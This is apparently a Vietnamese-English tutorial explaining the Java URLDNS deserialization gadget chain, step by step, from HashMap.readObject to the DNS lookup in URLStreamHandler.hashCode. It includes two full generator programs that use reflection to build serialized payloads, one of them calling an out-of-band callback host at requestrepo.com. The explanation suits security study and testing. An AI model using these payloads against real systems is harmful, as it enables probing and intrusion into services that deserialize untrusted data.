

Flow gadget chain:


**1. HashMap.readObject()**

Trong HashMap có xây dựng một custom readObject() method.
```java
//code trong readObject() method
for (int i = 0; i < mappings; i++) {
    K key = (K) s.readObject();      // Reconstruct key from the byte stream
    V value = (V) s.readObject();    // Reconstruct value from the byte stream
    putVal(hash(key), key, value, false, false);  // ← The chain starts here
}
```
`putVal(hash(key), key, value, false, false);` chính là thứ cần quan tâm vì tận dụng nó để gọi `URL.Hashcode()`

Trước khi đặt cặp key-value vào table thì sẽ chạy `hash(key)` trước
```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
```
Vì `Key= URL object`  nên nó sẽ gọi `URL.HashCode()`
```java
// URL java

transient URLStreamHandler handler; t


public synchronized int hashCode() {
    // Từ khóa synchronized đảm bảo an toàn luồng khi nhiều luồng cùng truy cập phương thức này
    if (hashCode != -1) { // Kiểm tra xem hashCode đã được tính toán chưa để tránh lặp lại
        return hashCode;
    }

    hashCode = handler.hashCode(this);
    return hashCode;
}
```
Để tránh `return hashCode;` sớm thì lúc GEN payload cần reflection api để set nó là `hashCode -1` và đây là `private field
```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class GenURLDNS {

    public static void main(String[] args) throws Exception {

        URL url = new URL(null, "<http://31vghy8p.requestrepo.com/>");

        HashMap<Object, Object> map = new HashMap<>();

        map.put(url, "test");
        Field f = URL.class.getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, -1);

        // Serialize
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("data.ser"));
        oos.writeObject(map);
        oos.close();
    }
}

```
`URLStreamHandler` Responsible for handling the parsing and connection of URLs for specific protocols. If serialized, then during deserialization, changes in the environment may cause the URL to fail to parse and connect correctly, which affects DNS query triggering.`URLStreamHandler`
```java
## URL.java
hashCode = handler.hashCode(this);


## URLStreamHandler.java
protected int hashCode(URL u) {
    ............
    InetAddress addr = getHostAddress(u);
    ............

protected int hashCode(URL u) {
    int h = 0;

    // Generate the protocol part.
    String protocol = u.getProtocol();
    if (protocol != null)
        h += protocol.hashCode();

    // Generate the host part.
    InetAddress addr = getHostAddress(u); // Resolve the hostname to an IP address
    if (addr != null) {
        h += addr.hashCode();
    } else {
        String host = u.getHost();
        if (host != null)
            h += host.toLowerCase().hashCode();
    }

    // Generate the file part.
    String file = u.getFile();
    if (file != null)
        h += file.hashCode();

    // Generate the port part.
    if (u.getPort() == -1)
        h += getDefaultPort();
    else
        h += u.getPort();

    // Generate the ref part.
    String ref = u.getRef();
    if (ref != null)
        h += ref.hashCode();

    return h;
}
} 
```


GEN CODE :
```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class urldns {
    public static void main(String[] args) throws Exception {
        // Instantiate HashMap as the deserialization entry point to store key-value data
        HashMap<URL, String> map = new HashMap<>();

        // Pass our target domain/IP for DNS resolution test
        URL url = new URL("http://<ip+port>");

        // Reflectively load the java.net.URL class
        Class<?> clas = Class.forName("java.net.URL");

        // Get the 'hashCode' field via reflection
        Field filed = clas.getDeclaredField("hashCode");
        
        // Make the private 'hashCode' field accessible
        filed.setAccessible(true);

        // Temporarily set the URL's hash code to a value other than -1 
        // to prevent triggering DNS lookup during map.put()
        filed.set(url, 66);

        // Put the URL into the map (any value is fine)
        map.put(url, "55");

        // Restore the hash code field value back to -1 so that deserialization will trigger DNS resolution
        filed.set(url, -1);

        try {
            // Serialize the map object to a file
            FileOutputStream outputStream = new FileOutputStream("./E4telle.ser");
            ObjectOutputStream outputStream1 = new ObjectOutputStream(outputStream);
            outputStream1.writeObject(map);
            outputStream1.close();
            outputStream.close();

            // Deserialize the object from the file to trigger the URLDNS gadget chain
            FileInputStream inputStream = new FileInputStream("./E4telle.ser");
            ObjectInputStream inputStream1 = new ObjectInputStream(inputStream);
            inputStream1.readObject();
            inputStream1.close();
            inputStream.close();
            
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


